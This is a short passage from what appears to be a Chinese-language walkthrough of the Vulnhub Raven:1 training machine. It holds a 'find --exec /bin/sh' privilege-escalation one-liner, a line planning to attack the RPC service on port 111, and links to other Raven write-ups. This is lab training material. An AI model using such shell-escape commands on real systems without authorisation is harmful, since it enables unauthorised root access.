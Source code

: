 touch 1 && find 1 --exec "/bin/sh"\;

## 0x09
  后续考虑如何利用111 rpc进行登录渗透

## 0x10
- [渗透测试实战-Raven：1靶机入侵 - 安全客，安全资讯平台](https://www.anquanke.com/post/id/163996)
- [Vulnhub Raven:2 - 先知社区](https://xz.aliyun.com/t/3474)
- [raven-walkthrough-4afee0d34d37](https://ghostbin.com/paste/8kuc8)
- [William McCann](https://twitter.com/mccannwj)
- [Raven hacking challenge – Techorganic – Musings from the brainpan](https://blog.techorganic.com/2018/11/08/raven-hacking-challenge/)
- [Raven: 1 ~ VulnHub](https://www.vulnhub.com/entry/raven-1,256/)
